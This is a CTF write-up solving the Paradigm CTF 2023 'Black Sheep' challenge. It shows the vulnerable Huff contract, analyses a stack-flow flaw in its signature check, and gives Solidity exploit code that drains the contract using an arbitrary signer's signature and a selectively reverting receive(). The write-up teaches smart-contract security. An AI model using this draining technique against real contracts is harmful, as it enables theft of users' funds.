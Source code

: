 # Paradigm CTF 2023 - Black Sheep - Solution

<!-- MarkdownTOC levels="1,2,3" autolink="true" -->

- [Introduction](#introduction)
- [The Contract](#the-contract)
- [Contract Analysis](#contract-analysis)
  - [1. The `withdraw` Function](#1-the-withdraw-function)
  - [2. Identifying the Vulnerability](#2-identifying-the-vulnerability)
- [Exploit Construction](#exploit-construction)
- [Generating a Valid Signature](#generating-a-valid-signature)
- [Exploit Code](#exploit-code)
- [Conclusion](#conclusion)
- [Repositories](#repositories)

<!-- /MarkdownTOC -->

## Introduction

In this article we'll discuss the solution to the challenge from the Paradigm CTF 2023 called "Black Sheep." The contract is written in Huff, a low-level language designed for Ethereum Virtual Machine (EVM) development. As someone passionate about low-level EVM security research, this was an exciting opportunity to dive deep into Huff.

## The Contract

```applescript
/* Interface */
#define function withdraw(bytes32,uint8,bytes32,bytes32) payable returns ()


#define macro CHECKVALUE() = takes (0) returns (0) {
    callvalue 0x10 gt over jumpi
    0x00 dup1 revert
    over:
        0x00
        0x00
        0x00
        0x00
        callvalue 0x02 mul
        caller
        0xFFFFFFFF
        call
}
#define macro CHECKSIG() = takes (0) returns (1) {
    0x04 calldataload
    0x00 mstore
    0x24 calldataload
    0x20 mstore
    0x44 calldataload
    0x40 mstore
    0x64 calldataload
    0x60 mstore
    0x20
    0x80
    0x80
    0x00
    0x1
    0xFFFFFFFF
    staticcall
    iszero invalidSigner jumpi
    0x80 mload
    0xd8dA6Bf26964AF9D7eed9e03e53415D37AA96044 eq correctSigner jumpi
    end jump

    correctSigner:
        0x00
        end jump
    invalidSigner:
        0x01
        end jump
    end:
}
#define macro WITHDRAW() = takes (0) returns (0){
    CHECKVALUE()
    CHECKSIG()
    iszero iszero noauth jumpi
    0x00 dup1 dup1 dup1
    selfbalance caller
    gas call
    end jump
    noauth:
        0x00 dup1 revert
    end:
}


#define macro MAIN() = takes (0) returns (0) {
    // Identify which function is being called.
    0x00 calldataload 0xE0 shr
    dup1 __FUNC_SIG(withdraw) eq withdrawj jumpi
    callvalue 0x00 lt recieve jumpi

    0x00 0x00 revert

    withdrawj:
        WITHDRAW()
    recieve:
}
```

## Contract Analysis

### 1. The `withdraw` Function

The function `withdraw(bytes32,uint8,bytes32,bytes32)` maps to the `WITHDRAW()` macro. It relies on two sub-macros:

- **`CHECKVALUE()`**: Verifies `msg.value` and reverts if it's more than `0x10` wei. If valid, it doubles the amount and sends it back.
- **`CHECKSIG()`**: Calls the precompiled contract `ecrecover` (at address `0x1`) to verify the signature against a specific address.

### 2. Identifying the Vulnerability

- **Signature Validation Issue:** The contract allows any valid signature, even from addresses other than the intended signer (`0xd8dA6Bf26964AF9D7eed9e03e53415D37AA96044`).
- **Redundant `ISZERO` Usage:** The use of `ISZERO` twice doesn't add value; it leaves the stack unchanged. This quirk is not critical for the exploit and may be distractive.
- **Fallback Stack Behavior:** In this particular case, the returned value from
  `CHECKVALUE()`'s `CALL` is used by `JUMPI` if `CHECKSIG()` doesn't push a value.
  This behavior influences the control flow, as `JUMPI` will rely on whatever
  happens to be on top of the stack.

## Exploit Construction

1. Deploy an Attack Contract:
  - The `receive()` function should revert when `msg.value == 0x12` to ensure `CALL` returns `0x0`.
  - Otherwise, it should succeed to collect the funds.

2. Trigger the Vulnerability:
  - Call `withdraw()` with either:
    - A valid signature from any address.
    - Or the tuple `(0x00, 27, 0x00, 0x00)` which results in a non-zero response from `ecrecover`.

## Generating a Valid Signature

We can use `cast` to create an address and generate a valid signature.

<p style="text-align: center;">
  <img width="600" src="/docs/assets/img/black-sheep-01.png">
</p>

## Exploit Code

```solidity
function testExploit() public {
    bytes32 msgHash = keccak256("Black Sheep");
    bytes32 r = 0x9f2c9ed6b027b594f5072cc39b6c5ffca1ca157ad5b661d0d268c577eede360c;
    bytes32 s = 0x52e8bf726d82a28ebd9b172efba7e75fd0671f6c1544b5a5b70ad803de360e33;
    uint8 v = 27;
    bank.withdraw{value: 0x09}(msgHash, v, r, s);

    assertEq(address(Challenge(challengeAddress).BANK()).balance, 0);
}

receive() external payable {
  if (msg.value == 0x12) {
    revert("");
  }
}
```

## Conclusion

This challenge highlighted the nuances of stack manipulation in Huff and the
critical importance of careful flow control, especially for security-related
validations. It also underscores the need for robust signature verification.

To prevent vulnerabilities like signature malleability, contracts should
implement additional controls. For example, the tuple `(0x00, 27, 0x00, 0x00)`
is considered valid by `ecrecover`, so contracts relying on signature
validation must properly handle such cases to prevent misuse.

Additionally, signatures should be bound to specific messages to prevent
replay attacks. Validation checks must ensure only authorized signers are
accepted to maintain the contract's security posture.

Incorporating these best practices helps build more secure smart contracts
and reduces the risk of common attack vectors.

## Repositories

* [https://github.com/bentobox19/paradigm-ctf](https://github.com/bentobox19/paradigm-ctf)
* [https://github.com/paradigmxyz/paradigm-ctf-2023](https://github.com/paradigmxyz/paradigm-ctf-2023)
